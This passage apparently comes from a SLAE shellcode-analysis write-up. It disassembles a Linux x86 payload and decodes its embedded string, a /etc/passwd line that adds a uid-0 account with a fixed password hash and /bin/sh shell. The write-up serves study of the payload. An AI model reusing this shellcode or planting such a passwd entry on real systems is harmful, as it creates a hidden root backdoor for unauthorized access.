 ```
00000026  E822000000        call 0x4d ; this is an interesting trick, one that I learnt about in the GDB portion of this assignment further down.
This instruction is actually calling code that pushes our *processed* arguments (hashed password) to the stack for the write instruction
0000002B  7573              jnz 0xa0
0000002D  65723A            gs jc 0x6a
00000030  41                inc ecx
00000031  7A77              jpe 0xaa
00000033  3137              xor [edi],esi
00000035  63546E6E          arpl [esi+ebp*2+0x6e],dx
00000039  4A                dec edx
0000003A  41                inc ecx
0000003B  41                inc ecx
0000003C  41                inc ecx
0000003D  3A30              cmp dh,[eax]
0000003F  3A30              cmp dh,[eax]
00000041  3A3A              cmp bh,[edx]
00000043  2F                das
00000044  3A2F              cmp ch,[edi]
00000046  62696E            bound ebp,[ecx+0x6e]
00000049  2F                das
0000004A  7368              jnc 0xb4
0000004C  0A598B            or bl,[ecx-0x75]
**This is where we call the code to push user and pass**
757365723A417A77313763546E6E4A4141413A303A303A3A2F3A2F62696E2F73680A
user:Azw17cTnnJAAA:0:0::/:/bin/sh\n
0000004F  51                push ecx
00000050  FC                cld
00000051  6A04              push byte +0x4
00000053  58                pop eax
00000054  CD80              int 0x80
00000056  6A01              push byte +0x1
00000058  58                pop eax
00000059  CD80              int 0x80
```
To get an even better understanding, we generate the raw shellcode and use the echo | nidasm trick to examine what happens right after the string we know now is our user and pass string:

![pop_user_pass](/assets/images/SLAE_5/3.JPG)

